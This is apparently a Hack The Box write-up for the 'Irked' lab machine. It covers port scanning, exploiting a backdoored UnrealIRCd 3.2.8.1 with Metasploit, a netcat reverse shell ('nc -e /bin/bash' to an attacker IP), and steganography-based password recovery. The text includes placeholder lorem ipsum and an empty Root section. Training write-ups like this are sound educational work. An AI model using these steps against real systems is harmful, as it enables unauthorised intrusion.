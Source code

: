 ```yaml
---
title: "HTB Write-up: Irked"
date: 2018-12-16
category: [HackTheBox]
tags: [HackTheBox, HTB, ]
header:
    teaser: "/assets/images/htb/resolute/resolute.png"
---
```

Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.

![irked_info](/assets/images/htb/irked/irked_info.png)

## User
To begin the enumeration process, a port scan was run against the target using `masscan`. The purpose of this intial scan is to quickly determine which ports are open so that a more focused `nmap` scan can be performed that will target only the open ports discovered by `masscan`.

```
root@kali:~/workspace/hackthebox/Access# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.117

```

From `masscan`, it was revealed that a variety of ports were listening for connections, as shown in the command output below.

```
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 8067/tcp on 10.10.10.117                                  
Discovered open port 65534/tcp on 10.10.10.117                                 
Discovered open port 80/tcp on 10.10.10.117                                    
Discovered open port 111/tcp on 10.10.10.117                                   
Discovered open port 22/tcp on 10.10.10.117                                    
Discovered open port 50167/tcp on 10.10.10.117                                 
Discovered open port 6697/tcp on 10.10.10.117 
...
```

Using this information, a second scan was run using `nmap` to more thoughoughly examine the services listening on the discovered ports.

```
root@kali:~/workspace/hackthebox/Access# nmap -p 8067,65534,80,111,22,50167,6697 -sC -sV -oA scans/discovered-tcp 10.10.10.117
```

Note that while this scan is running, it's a good idea to check out what might be happening on well-known ports such as the HTTP port TCP 80. In this case, it appears the only item present on the webserver is the `irked.jpg` image which is shown below.

![irked_jpg](/assets/images/htb/irked/irked_jpg.png)

The results of the nmap scan revealed some interesting services listening on some uncommon ports, which suggest a good starting place for further enumeration. Note that in general, it is wise to take a broad approach during the initial enumeration process. That is to say that basic enumeration of each listening service should be completed before moving on to more focused enumeration of any particular service. In this write-up, the basic enumeration techniques are not discussed. A screenshot of the result of the nmap scan is shown below.

![nmapresults](/assets/images/htb/irked/nmapresults.png)

Of particular interest is the UnrealIRCd service running on TCP ports 6697, 8067, and 65534.

Using an IRC client such as `hexchat`, the IRC service listening on port 6697 can be accessed. If necesary, `hexchat` can be installed using `apt-get install hexchat`. Upon connecting to the service, the server announces the running version of UnrealIRCd as 3.2.8.1. This is shown in the screenshot below.

![irc_version](/assets/images/htb/irked/irc_version.png)

Lesser-known and outdated services are often vulnerable to exploitation. The `searchsploit` tool can be used to search for exploits relevant to a given service. Now that the version of UnrealIRCd running on the target server is known, the command shown below can be used to search for vulnerabliities and exploits relevant to UnrealIRCd 3.2.8.1.

```
root@kali:~/workspace/hackthebox/Irked# searchsploit "UnrealIRCd 3.2.8.1"
```

The results of the search reveal that thare are a variety of exploits related to this version of UnrealIRCd, including a backdoor command exeuction Metasploit module.

![searchsploit_results](/assets/images/htb/irked/searchsploit_results.png)

The Metasploit Framework can be accessed via command line with the `msfconsole` command. Within `msfconsole`, the `exploit/unix/irc/unreal_ircd_3281_backdoor` module can be loaded and ran against the target using the options shown below.

![msfconsole_exploit](/assets/images/htb/irked/msfconsole_exploit.png)

Running this module with the `run` command results in a shell on the system as the `ircd` user. This session can be upgraded to a more stable shell by first connecting back to the attacking system once again, but this time outisde of `msfconsole`. In a new window on the attacking system, a listener should be set up before issuing the `nc -e /bin/bash 10.10.14.2 4444` command on the target system. From the session created over this connection, the shell can be upgraded, as demonstrated below.

![shell_upgrade](/assets/images/htb/irked/shell_upgrade.png)

In the `/home` directory of the target system there are two users; `ircd` and `djmardov`. The flag `user.txt` file is in the `/home/djamardov/Documents` directory, but cannot be read by the current `ircd` user. In this same directory, however, there is a file called `.backup`, the contents of which are shown below.

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

For those unfamiliar with steg, the word "steg" is short for "steganography" and is the practice of concealing a file, message, image, or video within another file, message, image or video. The contents of the `.backup` file in the home directory of `djmardov` suggets that there must be some information hidden in another file, and that `UPupDOWNdownLRlrBAbaSSss` must be the password to access the information.

A useful Linux tool for working with stegonagrphy is `steghide`. If necessary, this tool can be installed using `apt-get install steghide`. The `steghide` command shown below can be run against the `irked.jpg` image found on the webserver.

```
root@kali:~/workspace/hackthebox/Irked# steghide info irked.jpg
```

Upon running this command, the program prompts for a password, for which `UPupDOWNdownLRlrBAbaSSss` should be given, revealing the information shown below.

![steghide_info](/assets/images/htb/irked/steghide_info.png)

The embedded `pass.txt` file can be extracted with the following command.

```
root@kali:~/workspace/hackthebox/Irked# steghide extract -sf irked.jpg -p 
```

The `pass.txt` file can now be read and contains the data shown below.

```
Kab6h+m+bbp2J:HG
```

Returning to the target system, the password shown above can be used to switch to the `djmardov` user with the `su` command. The `user.txt` file can now be read.

![user_txt](/assets/images/htb/irked/user_txt.png)

## Root

